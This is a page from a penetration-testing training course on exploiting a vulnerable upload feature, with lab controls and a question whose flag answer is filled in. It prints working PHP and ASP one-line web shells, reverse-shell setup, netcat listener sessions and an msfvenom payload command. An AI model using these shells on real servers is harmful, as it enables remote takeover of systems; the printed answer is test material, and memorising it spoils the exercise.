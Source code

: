 
<h1>Upload Exploitation</h1>
<hr/>
<p>The final step in exploiting this web application is to upload the malicious script in the same language as the web application, like a web shell or a reverse shell script. Once we upload our malicious script and visit its link, we should be able to interact with it to take control over the back-end server.</p>
<hr/>
<h2>Web Shells</h2>
<p>We can find many excellent web shells online that provide useful features, like directory traversal or file transfer. One good option for <code>PHP</code> is <a href="https://github.com/Arrexel/phpbash">phpbash</a>, which provides a terminal-like, semi-interactive web shell. Furthermore, <a href="https://github.com/danielmiessler/SecLists/tree/master/Web-Shells">SecLists</a> provides a plethora of web shells for different frameworks and languages, which can be found in the <code>/opt/useful/seclists/Web-Shells</code> directory in <code>PwnBox</code>.</p>
<p>We can download any of these web shells for the language of our web application (<code>PHP</code> in our case), then upload it through the vulnerable upload feature, and visit the uploaded file to interact with the web shell. For example, let's try to upload <code>phpbash.php</code> from <a href="https://github.com/Arrexel/phpbash">phpbash</a> to our web application, and then navigate to its link by clicking on the Download button:
<img class="website-screenshot" data-url="http://SERVER_IP:PORT/uploads/phpbash.php" src="/storage/modules/136/file_uploads_php_bash.jpg"/></p>
<p>As we can see, this web shell provides a terminal-like experience, which makes it very easy to enumerate the back-end server for further exploitation. Try a few other web shells from SecLists, and see which ones best meet your needs.</p>
<hr/>
<h2>Writing Custom Web Shell</h2>
<p>Although using web shells from online resources can provide a great experience, we should also know how to write a simple web shell manually. This is because we may not have access to online tools during some penetration tests, so we need to be able to create one when needed.</p>
<p>For example, with <code>PHP</code> web applications, we can use the <code>system()</code> function that executes system commands and prints their output, and pass it the <code>cmd</code> parameter with <code>$_REQUEST['cmd']</code>, as follows:</p>
<pre><code class="language-php">&lt;?php system($_REQUEST['cmd']); ?&gt;
</code></pre>
<p>If we write the above script to <code>shell.php</code> and upload it to our web application, we can execute system commands with the <code>?cmd=</code> GET parameter (e.g. <code>?cmd=id</code>), as follows:
<img class="website-screenshot" data-url="http://SERVER_IP:PORT/uploads/shell.php?cmd=id" src="/storage/modules/136/file_uploads_php_manual_shell.jpg"/></p>
<p>This may not be as easy to use as other web shells we can find online, but it still provides an interactive method for sending commands and retrieving their output. It could be the only available option during some web penetration tests.</p>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Tip:</b> If we are using this custom web shell in a browser, it may be best to use source-view by clicking <code>[CTRL+U]</code>, as the source-view shows the command output as it would be shown in the terminal, without any HTML rendering that may affect how the output is formatted.</p>
</div>
</div>
<p>Web shells are not exclusive to <code>PHP</code>, and the same applies to other web frameworks, with the only difference being the functions used to execute system commands. For <code>.NET</code> web applications, we can pass the <code>cmd</code> parameter with <code>request('cmd')</code> to the <code>eval()</code> function, and it should also execute the command specified in <code>?cmd=</code> and print its output, as follows:</p>
<pre><code class="language-asp">&lt;% eval request('cmd') %&gt;
</code></pre>
<p>We can find various other web shells online, many of which can be easily memorized for web penetration testing purposes. It must be noted that <code>in certain cases, web shells may not work</code>. This may be due to the web server preventing the use of some functions utilized by the web shell (e.g. <code>system()</code>), or due to a Web Application Firewall, among other reasons. In these cases, we may need to use advanced techniques to bypass these security mitigations, but this is outside the scope of this module.</p>
<hr/>
<h2>Reverse Shell</h2>
<p>Finally, let's see how we can receive reverse shells through the vulnerable upload functionality. To do so, we should start by downloading a reverse shell script in the language of the web application. One reliable reverse shell for <code>PHP</code> is the <a href="https://github.com/pentestmonkey/php-reverse-shell">pentestmonkey</a> PHP reverse shell. Furthermore, the same <a href="https://github.com/danielmiessler/SecLists/tree/master/Web-Shells">SecLists</a> we mentioned earlier also contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well.</p>
<p>Let's download one of the above reverse shell scripts, like the <a href="https://github.com/pentestmonkey/php-reverse-shell">pentestmonkey</a>, and then open it in a text editor to input our <code>IP</code> and listening <code>PORT</code>, which the script will connect to. For the <code>pentestmonkey</code> script, we can modify lines <code>49</code> and <code>50</code> and input our machine's IP/PORT:</p>
<pre><code class="language-php">$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
</code></pre>
<p>Next, we can start a <code>netcat</code> listener on our machine (with the above port), upload our script to the web application, and then visit its link to execute the script and get a reverse shell connection:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</code></pre>
<p>As we can see, we successfully received a connection back from the back-end server that hosts the vulnerable web application, which allows us to interact with it for further exploitation. The same concept can be used for other web frameworks and languages, with the only difference being the reverse shell script we use.</p>
<hr/>
<h2>Generating Custom Reverse Shell Scripts</h2>
<p>Just like web shells, we can also create our own reverse shell scripts. While it is possible to use the same previous <code>system</code> function and pass it a reverse shell command, this may not always be very reliable, as the command may fail for many reasons, just like any other reverse shell command.</p>
<p>This is why it is always better to use core web framework functions to connect to our machine. However, this may not be as easy to memorize as a web shell script. Luckily, tools like <code>msfvenom</code> can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do so as follows for <code>PHP</code>:</p>
<pre><code class="language-shell-session">[!bash!]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw &gt; reverse.php
...SNIP...
Payload size: 3033 bytes
</code></pre>
<p>Once our <code>reverse.php</code> script is generated, we can once again start a <code>netcat</code> listener on the port we specified above, upload the <code>reverse.php</code> script and visit its link, and we should receive a reverse shell as well:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</code></pre>
<p>Similarly, we can generate reverse shell scripts for several languages. We can use many reverse shell payloads with the <code>-p</code> flag and specify the output language with the <code>-f</code> flag.</p>
<p>While reverse shells are always preferred over web shells, as they provide the most interactive method for controlling the compromised server, they may not always work, and we may have to rely on web shells instead. This can be for several reasons, like having a firewall on the back-end network that prevents outgoing connections or if the web server disables the necessary functions to initiate a connection back to us.</p>
<div class="mb-5 pwnbox-select-card"></div>
<div id="screen" style="height: 600px; border: 1px solid;">
<div class="screenPlaceholder">
<div class="instanceLoading" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Instance is starting...</div>
</div>
<div class="instanceTerminating" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Terminating instance...</div>
</div>
<div class="row instanceStart max-width-canvas">
<div class="col-4"></div>
<div class="col-4">
<button class="startInstanceBtn btn btn-success text-light btn-lg btn-block" style="margin-top: 270px;">Start Instance
                            </button>
<p class="text-center mt-2 font-size-13 font-secondary">
<span class="text-success spawnsLeft">
<i class="fal fa-infinity"></i>
</span> / 1 spawns left
                            </p>
</div>
<div class="col-4"></div>
</div>
</div>
</div>
<div class="row align-center justify-center my-4">
<div class="col-5 justify-start">
<button class="instance-button fullScreenBtn btn btn-light btn-sm float-left" style="display:none;" target="_blank"><i class="fad fa-expand text-success mr-1"></i>  Full Screen
                    </button>
<button class="instance-button terminateInstanceBtn btn btn-light btn-sm ml-2" style="display:none;"><i class="fad fa-times text-danger"></i>  Terminate
                    </button>
<button class="instance-button resetInstanceBtn btn btn-light btn-sm ml-1" style="display:none;"><i class="fad fa-sync text-warning mr-2"></i>  Reset
                    </button>
<div class="btn-group" role="group">
<button class="instance-button extendInstanceBtn btn btn-light btn-sm ml-1" style="display:none;cursor: default;">Life Left:
                            <span class="lifeLeft"></span>m
                        </button>
<button class="extendInstanceBtn extendInstanceBtnClicker btn btn-light btn-sm" data-title="Extend Life" data-toggle="tooltip" style="display:none;"><i class="fa fa-plus text-success"></i></button>
</div>
</div>
<div class="col-7 justify-end pt-2 pr-2 font-size-small text-right" id="statusText">Waiting to
                    start...
                </div>
</div>
<div class="d-inline-block mb-2 solutionSettings solutionSettingsOffsets" id="solutionsModuleSetting">
<div class="border border-secondary p-2 rounded">
<div class="custom-control custom-switch d-flex">
<input class="custom-control-input" disabled="" id="showSolutionsModuleSetting" type="checkbox"/>
<label class="custom-control-label font-size-14 font-weight-normal text-white" for="showSolutionsModuleSetting">
                                Enable step-by-step solutions for all questions
                            </label>
<span aria-hidden="true" class="cursor-pointer font-size-14 ml-1 mr-1 text-white" data-content="Access to this feature is exclusive to annual subscribers. To acquire an annual subscription, kindly proceed by clicking &lt;a href='/billing'&gt;here&lt;/a&gt;." data-html="true" data-placement="top" data-toggle="popover" data-trigger="click" title="Activate Solutions">
<i class="fa fa-info-circle font-size-12"></i>
</span>
<img alt="sparkles-icon-decoration" class="ml-2 w-auto sparkles-icon" height="20" src="/images/sparkles-solid.svg">
</img></div>
</div>
</div>
<div class="card" id="questionsDiv">
<div class="card-body">
<div class="row">
<div class="col-9">
<h4 class="card-title mt-0 font-size-medium">Questions</h4>
<p class="card-title-desc font-size-large font-size-15">Answer the question(s) below
                                to complete this Section and earn cubes!</p>
<span class="spawnTargetBtn spawn-target-text-clone d-none">Click here to spawn the target
                                system!</span>
<p class="card-title-desc font-size-large font-size-15 mb-0">
    Target(s): <span class="text-success">
<span class="target" style="cursor:pointer;">
<i class="fad fa-circle-notch fa-spin"></i>
<span class="spawnTargetBtn">Fetching status...</span>
</span>
</span>
<button class="resetTargetBtn btn btn-light btn-sm" data-title="Reset Target(s)" data-toggle="tooltip" style="cursor: pointer; display: none;">
<i class="fad fa-sync text-warning"></i>
</button>
<br/>
<div class="d-flex align-items-center targetLifeContainer">
<span class="targetLifeTimeContainer" style="display: none;">
            Life Left: <span class="targetLifeTime font-size-15">0</span> minute(s)
                    </span>
</div>
</p>
</div>
<div class="col-3 text-right float-right">
<button class="btn btn-light bg-color-blue-nav mt-2 w-100 d-flex align-items-center" data-target="#cheatSheetModal" data-toggle="modal">
<div><i class="fad fa-file-alt mr-2"></i></div>
<div class="text-center w-100 ml-1">Cheat Sheet</div>
</button>
</div>
</div>
<div>
<div>
<label class="module-question" for="859"><span class="badge badge-soft-dark font-size-14 mr-2">+ 1 <i class="fad fa-cube text-success"></i></span> Try to exploit the upload feature to upload a web shell and get the content of /flag.txt
                            </label>
<div class="row">
<div class="col-lg-12 mb-4">
<input class="form-control text-success" disabled="true" type="text" value="HTB{g07_my_f1r57_w3b_5h3ll}"/>
</div>
<div class="d-flex justify-content-end w-100 mr-3">
<div class="mb-4 mr-1 d-flex align-items-center">
<button class="btn btn-primary btn-block btnAnswer" data-question-id="859" disabled="true" id="btnAnswer859">
<div class="submit-button-text">
<i class="fad fa-flag-checkered mr-2"></i> Submit
                                            </div>
<div class="submit-button-loader mx-4 d-none">
<i class="fa fa-circle-notch fa-spin"></i>
</div>
</button>
</div>
</div>
</div>
<div class="">
</div>
</div>
</div>
</div>
</div>
